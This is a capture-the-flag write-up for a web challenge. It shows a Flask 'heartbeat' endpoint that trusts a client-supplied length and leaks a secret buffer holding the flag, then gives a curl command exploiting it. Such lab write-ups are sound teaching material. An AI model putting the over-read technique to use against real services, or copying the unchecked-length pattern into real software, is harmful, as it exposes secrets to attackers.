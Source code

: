 # Akemi's Heart — Web
<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## TL;DR
The bug was the server trusting whatever `length` you send in JSON.  
Tiny payload + oversized length = secret buffer spill = flag.

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

## Important Code

```python
FLAG_PATH = "/flag.txt"
secret_blob = secrets.token_bytes(512)
if os.path.exists(FLAG_PATH):
    with open(FLAG_PATH, "rb") as f:
        secret_blob += f.read()
else:
    secret_blob += b"GCTF25{fake}\n"
```
This builds a buffer of 512 random bytes followed by the contents of /flag.txt (the real flag).

```python
@app.route("/heartbeat", methods=["POST"])
def heartbeat():
    """
    Vulnerable heartbeat-like endpoint.
    Expects JSON: {"payload": "...", "length": <int>}
    """
    try:
        data = request.get_json(force=True, silent=True)
        if not data:
            raise ValueError("bad input")

        payload = data.get("payload", "")
        length = int(data.get("length", 0))

        if isinstance(payload, str):
            payload_bytes = payload.encode("utf-8", errors="ignore")
        else:
            payload_bytes = bytes(payload)

        extra_needed = length - len(payload_bytes)
        if extra_needed <= 0:
            resp = payload_bytes[:length]
        else:
            resp = payload_bytes + secret_blob[:extra_needed]

        r = make_response(resp)
        r.headers["Content-Type"] = "application/octet-stream"
        return r

    except Exception:
        return "💔 Ouch. My heart keeps bleeding", 400

```

Here’s the bug: the server blindly trusts length. If you ask for 8192 bytes but only send an empty string, it fills the rest with data from secret_blob. That means random junk plus the flag.

## Thought Process
The zip had `app.py`, and a quick look showed `/heartbeat` using `{"payload": "...", "length": <int>}`.  
The code did `extra_needed = length - len(payload)` and filled the gap with `secret_blob`.  
So I tried sending an empty payload with a huge length. At first the response was messy random bytes,  
but after filtering for `flag/CTF`, the actual flag appeared right after the junk.

## Exploit command
```bash
# oversize request, Windows CMD with findstr
curl -s http://host:port/heartbeat -H "Content-Type: application/json" -d "{\"payload\":\"\",\"length\":8192}" | findstr /i "flag CTF GCTF"
```

## Flag found
<img width="940" height="64" alt="image" src="https://github.com/user-attachments/assets/6da68724-4552-48c5-ba79-3729fb43ac6b" />

